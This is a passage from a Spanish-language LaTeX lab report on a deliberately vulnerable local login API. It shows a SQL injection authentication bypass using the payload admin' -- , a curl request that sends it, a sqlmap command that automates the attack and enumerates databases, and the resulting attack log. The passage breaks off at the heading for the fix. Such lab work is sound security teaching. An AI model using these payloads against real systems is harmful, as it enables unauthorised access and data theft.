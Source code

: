 \subsection{Explotación}

Introduciendo como usuario \verb|admin' -- | (con un espacio tras \verb|--|)
y cualquier contraseña, la consulta resultante comenta la comprobación de la
contraseña y autentica directamente como \texttt{admin}. La propia respuesta
de la API en modo vulnerable incluye el campo \texttt{query} con la consulta
ejecutada, lo que permite visualizar la inyección:

\begin{console}
curl -i -X POST http://localhost:8080/api/login \
     -H 'Content-Type: application/json' \
     -d '{"username":"admin'\'' -- ","password":"x"}'
\end{console}

El mismo punto de inyección puede automatizarse con \texttt{sqlmap}, para
confirmar la vulnerabilidad e identificar el motor de base de datos de
forma sistemática en lugar de manual:

\begin{console}
sqlmap -u "http://localhost:8080/api/login" \
       --data='{"username":"marina","password":"x"}' \
       --headers="Content-Type: application/json" -p username --batch --dbs
\end{console}

\subsection{Evidencia registrada}

El acceso concedido sin credenciales válidas queda registrado en
\texttt{backend/logs/attacks.log} con \verb|event=login_ok| y el campo
\texttt{query} correspondiente a la consulta inyectada, distinguible del
inicio de sesión legítimo por incluir dicho campo:

\begin{console}
mode=vulnerable ip=127.0.0.1 event=login_ok user=admin' --
  query=SELECT * FROM users WHERE username = 'admin' --  ' AND password = 'x'
\end{console}

\subsection{Corrección (modo seguro, \texttt{?safe=1})}

